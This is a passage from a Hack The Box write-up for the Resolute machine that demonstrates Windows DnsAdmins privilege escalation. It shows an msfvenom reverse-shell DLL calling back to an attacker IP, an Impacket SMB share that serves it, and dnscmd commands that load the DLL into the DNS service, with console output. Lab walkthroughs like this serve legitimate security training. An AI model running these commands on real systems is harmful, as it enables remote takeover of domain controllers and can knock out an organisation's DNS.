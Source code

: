 DnsAdmins have the ability to install plugins to DNS that is running on the machine. A plugin is a library that adds functionality to DNS and it is a Dynamic Link Library \(DLL\). The easy way to do this is to create a reverse shell DLL using msfvenom, configure DNS to use it, then stop and restart the DNS server \(https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2\). The problem with this is that it will cause the DNS server to hang and become unresponsive. On Hack The Box, that is sort of ok because the system gets reset every minute, however, in a real assignment, you would not want to cause a major part of an organization's infrastructure to become inoperable. IppSec \(https://www.youtube.com/watch?v=8KJebvmd1Fk&t=2130\) shows a way of writing a custom DLL that uses threads to avoid this issue and so is a better approach but more complicated as the code is in C++ and you need the environment to build it. You can find the code for this approach on GitHub \(https://github.com/oztechmuse/Code4HackTheBox/tree/master/Machines/Resolute/revshell-dns-dll/dns-plugindll-vcpp\).

The first thing to do is create a DLL with msfvenom. For the time being, this can't be a meterpreter shell because of constraints on the DLL.

```bash
┌─[rin@parrot]─[~/boxes/Resolute]
└──╼ $msfvenom -a x64 -p windows/x64/shell_reverse_tcp \
LHOST=10.10.14.117 LPORT=6001 -f dll > revsh.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows 
    from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
```

We can then start an SMB server using Impacket's smbserver.py to make the DLL accessible to the machine:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Resolute]
└──╼ $sudo smbserver.py share $(pwd)
[sudo] password for oztechmuse:
Impacket v0.9.23.dev1+20201209.133255.ac307704 - 
 Copyright 2020 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
We can then stop DNS, configure it to use the plugin and then start again:
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe stop dns
SERVICE_NAME: dns
 TYPE : 10 WIN32_OWN_PROCESS
 STATE : 3 STOP_PENDING
 (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
 WIN32_EXIT_CODE : 0 (0x0)
 SERVICE_EXIT_CODE : 0 (0x0)
 CHECKPOINT : 0x1
 WAIT_HINT : 0x7530
*Evil-WinRM* PS C:\Users\ryan\Desktop > dnscmd 127.0.0.1 `
/config /serverlevelplugindll \\10.10.14.117\share\revsh.dll
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
*Evil-WinRM* PS C:\Users\ryan\Desktop > sc.exe start dns
SERVICE_NAME: dns
 TYPE : 10 WIN32_OWN_PROCESS
 STATE : 2 START_PENDING
 (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
 WIN32_EXIT_CODE : 0 (0x0)
 SERVICE_EXIT_CODE : 0 (0x0)
 CHECKPOINT : 0x0
 WAIT_HINT : 0x7d0
 PID : 1096
 FLAGS :
```

